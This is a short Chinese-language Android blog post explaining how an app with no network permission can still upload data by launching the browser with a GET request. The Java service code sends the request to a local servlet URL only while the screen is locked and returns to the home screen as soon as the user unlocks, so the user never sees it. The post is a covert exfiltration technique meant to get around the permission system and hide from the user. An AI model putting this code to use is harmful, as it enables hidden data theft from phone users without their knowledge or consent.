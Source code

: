 ```yaml
---
layout: post
title: "零权限上传数据"
description: ""
category: BasicKnowledge
tags: [BasicKnowledge]
imagefeature: blog/bg.jpg
comments: true
mathjax: null
featured: false
published: true
---
```


零权限上传数据
===

虽然没有权限，但是也可以通过浏览器用`Get`方式来传递自己的数据，由于这样会打开浏览器，为了防止让用户看到，
所以我们可以再用户锁屏之后开始传递数据，而在用户一解除锁屏我们就回到桌面，这里用`KeyguardManager`来实现，
即在锁屏的时候键盘不能用，而一旦键盘能用了我们就立马回到桌面    
```java
public void onCreate() {
	timer = new Timer();
	km = (KeyguardManager) getSystemService(KEYGUARD_SERVICE);
	random = new Random();
	task = new TimerTask() {
		@Override
		public void run() {
			if (km.inKeyguardRestrictedInputMode()) {
				Intent intent = new Intent();
				intent.setAction(Intent.ACTION_VIEW);
				intent.addCategory(Intent.CATEGORY_BROWSABLE);
				intent.setData(Uri
						.parse("http://192.168.1.254:8080/web/UploadServlet?info="
								+ random.nextInt()));
				intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
				startActivity(intent);
			}else{		
				//回桌面.
				Intent intent = new Intent();
				intent.setAction("android.intent.action.MAIN");
				intent.addCategory("android.intent.category.HOME");
				intent.addCategory(Intent.CATEGORY_DEFAULT);
				intent.addCategory("android.intent.category.MONKEY");
				intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
				startActivity(intent);
			}
		}
	};
	timer.schedule(task, 1000, 2000);
	super.onCreate();
}
```

---

- 邮箱 ：charon.chui@gmail.com  
- Good Luck! 